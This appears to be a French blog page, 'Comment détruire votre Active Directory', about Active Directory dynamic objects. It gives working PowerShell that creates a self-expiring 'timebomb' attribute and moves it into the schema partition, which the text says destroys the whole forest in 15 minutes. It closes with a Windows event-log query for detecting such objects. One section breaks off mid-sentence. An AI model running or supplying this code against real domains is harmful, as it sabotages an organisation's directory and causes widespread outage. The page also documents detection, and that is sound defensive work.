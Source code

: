 ```yaml
---
title: "Comment détruire votre Active Directory"
description: "Votre forêt s'auto-détruira dans 3, 2, 1..."
tags: activedirectory
listed: true
---
```


Création d'un objet temporaire dans le schéma Active Directory

[PowerShell Gallery \| scripts/New-ADSchemaTestOID.ps1 0.0.3](https://www.powershellgallery.com/packages/ADSchema/0.0.3/Content/scripts%5CNew-ADSchemaTestOID.ps1)

[PowerShell Gallery \| scripts/New-ADSchemaAttribute.ps1 0.0.1](https://www.powershellgallery.com/packages/ADSchema/0.0.1/Content/scripts%5CNew-ADSchemaAttribute.ps1)

## Comportement d'un objet dynamique

### Création d'un objet statique dans un objet dynamique

Lorsque vous 

Aucun problème en revanche pour créer un objet dynamique dans un autre objet dynamique

"Windows cannot create the object testGroup because: The server is unwilling to process the request"

## Détruire votre domaine Active Directory

### Création d'un objet temporaire dans le schéma

Basé sur l'article : [Create and manage custom AD attributes with PowerShell – 4sysops](https://4sysops.com/archives/create-and-manage-custom-ad-attributes-with-powershell/#rtoc-4)

#### Génération d'un OID

```powershell
function New-Oid {
    param([string]$Prefix = '1.2.840.113556.1.8000.2554')

    $guid = [string]([System.Guid]::NewGuid())
    $oid = 0, 4, 9, 14, 19, 24, 30 | ForEach-Object {
        if ($_ -ge 24) { $l = 6 } else { $l = 4 }
        [UInt64]::Parse($guid.SubString($_, $l), 'AllowHexSpecifier')
    }
    $prefix + ($oid -join '.')
}
```

#### Ajout d'un nouvel attribut

```powershell
# Création de l'attribut en dehors de la partition Schéma
$dynamicObject = ([ADSI]("LDAP://CN=Users,DC=contoso,DC=com")).Create('attributeSchema', 'CN=timebomb')
$dynamicObject.PutEx(2, 'objectClass', @('dynamicObject', 'attributeSchema'))
$dynamicObject.Put('entryTTL', 900)
$dynamicObject.Put('lDAPDisplayName', 'timebomb')
$dynamicObject.Put('adminDescription', 'This attribute will blow up the entire Active Directory forest in 15 minutes')
$dynamicObject.Put('attributeId', (New-Oid))
$dynamicObject.Put('oMSyntax', 1)
$dynamicObject.Put('attributeSyntax', '2.5.5.8')
$dynamicObject.Put('searchflags', 0)
$dynamicObject.Put('systemFlags', 536870912)
$dynamicObject.SetInfo()
```

```powershell
# Déplacement de l'objet dans la partition schéma
Move-ADObject -Identity 'CN=timebomb,CN=Users,DC=contoso,DC=com' -TargetPath (Get-ADRootDSE).schemaNamingContext
```

## Détection de la création d'objet dynamique

```powershell
$filterXPath = "Event[System[EventID=5136]] and *[EventData[Data[@Name='AttributeValue']='1.3.6.1.4.1.1466.101.119.2']]"
Get-WinEvent -ProviderName Microsoft-Windows-Security-Auditing -FilterXPath $filterXPath
```

[AD Object Detection: Detecting the undetectable (dynamicObject) \| Microsoft Learn](https://learn.microsoft.com/en-us/archive/blogs/pfesweplat/ad-object-detection-detecting-the-undetectable-dynamicobject)